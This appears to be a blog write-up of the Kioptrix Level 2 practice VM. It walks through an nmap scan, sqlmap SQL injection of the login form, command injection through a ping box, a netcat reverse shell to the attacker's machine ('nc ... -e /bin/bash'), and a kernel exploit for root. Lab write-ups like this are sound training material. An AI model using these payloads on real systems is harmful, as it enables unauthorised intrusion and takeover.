 ```yaml
---
layout: post
title:  "Kioptrix Level 2"
date: 2018-02-26 14:00:00 +0800
categories: kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login]({{ "/assets/kioptrix-start.png" | absolute_url }})

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan]({{ "/assets/nmap scan.png" | absolute_url }})

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #This is the Kioptrix Machine IP that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}

![mysql version]({{ "/assets/mysql version result.png" | absolute_url }})

Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 

![landing page]({{ "/assets/web landing page.png" | absolute_url }})

A login page. Let's use burpsuite, intercept the login and see what we can find out. 

![burpsuite]({{ "/assets/burpsuite.png" | absolute_url }})

Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 

In terminal we write:

{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}

-u is for URL
--data this is where we put the data from our burpsuite intercept
--level is level of tests to perform from 1-5, may as well max it out
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. 

![sqlmap complete]({{ "/assets/sqlmap-complete.png" | absolute_url }})

sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 

Now we are at this page:

![web after login]({{ "/assets/webpage after login.png" | absolute_url }})

What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}. I used port 1111, you can use whatever port you wish. 

Then back in the webapp textbox we need to input {% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}



Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit

![uname]({{ "/assets/kernel.png" | absolute_url }})


http://www.exploit-db.com/exploits/9542/

This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root]({{ "/assets/root.png" | absolute_url }})

Done! We are now root. I'll just change the password and login via the VM.

![have root]({{ "/assets/haveroot.png" | absolute_url }})



Thanks guys!